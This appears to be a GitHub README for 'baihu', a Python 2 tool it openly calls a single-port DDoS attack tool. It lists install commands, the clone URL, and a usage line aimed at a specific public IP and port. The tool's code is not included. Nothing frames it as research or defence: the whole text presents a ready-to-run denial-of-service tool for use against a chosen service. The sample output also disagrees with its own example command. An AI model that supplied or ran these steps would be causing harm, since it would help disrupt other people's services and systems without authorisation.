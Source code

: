 # 
# 

This is a tool used for ddos attack.

This is a  tool used for single port ddos attack. As  it attacks to a single port you can target a specific service/port .

commands
_______________
	$ apt update -y && apt upgrade -y
	$ pkg install git
	$ pkg install figlet
	$ pkg install python2
	$ git clone https://github.com/km2262488/baihu.git
	$ cd baihu
	$ git pull
	$ python2 baihu.py <IP> <PORT> <PACKETS>
 
example : python2 baihu.py 104.27.190.77 8080 100  
	
	  Target IP : 104.27.190.77 
	  Port      : 443
	  Packet    : 1000


Tool used for ddos attack.




	

	
